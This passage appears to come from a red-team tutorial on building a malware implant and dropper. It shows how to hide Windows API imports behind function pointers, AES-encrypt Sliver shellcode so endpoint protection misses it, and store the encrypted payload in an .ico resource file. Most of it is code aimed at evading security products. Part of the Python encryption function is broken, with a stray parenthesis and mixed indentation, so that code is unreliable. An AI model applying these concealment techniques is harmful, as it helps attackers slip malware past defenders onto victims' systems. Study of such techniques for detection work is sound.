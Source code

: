 We can use this in our implant to avoid having to import at run time by inserting this line before the function call:

```CPP
HANDLE (WINAPI * pCreateThread)(LPSECURITY_ATTRIBUTES lpThreadAttributes,SIZE_T dwStackSize,LPTHREAD_START_ROUTINE  lpStartAddress,__drv_aliasesMem LPVOID lpParameter,DWORD dwCreationFlags,LPDWORD lpThreadId );
```

What we've done here is creating a WINAPI pointer to the function, and it can be done for a lot of our imports.

### Encrypting our payload

The fastest way to be caught is to use a payload easily identifiable to the EPP. The easiest way to not be caught, then, is to encrypt our payload until run time. For this section, I updated the Python script from Sektor7's red team operator course to be Python3 compatible. This way, we can now feed our outputted shellcode file from Sliver into our encrypt function, get a key and encrypted payload, and then hide that further in our dropper. I don't want to share too much of reenz0h's work, so I'll keep it simple by supplying only pieces I've found also on StackOverflow from a decade ago.

The padding function is as follows:
```Python
def pad(s):
    length = 16 - (len(s) % 16)
    s += bytes([length])*length
    return s
```

And the encrypting function is as follows:
```Python
def aesenc(plaintext, key):
  iv = 16*'\x00'
  iv = bytearray(iv, 'utf-8')
	k = hashlib.sha256(key).digest()
	plaintext = pad(plaintext))
	cipher = AES.new(k, AES.MODE_CBC, iv)

	return cipher.encrypt(bytes(plaintext))
```

We generate a key through using the ```urandom``` import and call the aesenc function through this:
```Python
plaintext = open(sys.argv[1], "rb").read()
ciphertext = aesenc(plaintext, KEY)
```

Then to get the output looking nice we do some string manipulation and write it to the resource.ico file:
```Python
print('AESkey[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in KEY) + ' };')
imm_by = bytes(ciphertext)

with open('resource.ico', 'wb') as file:
  file.write(imm_by)
```
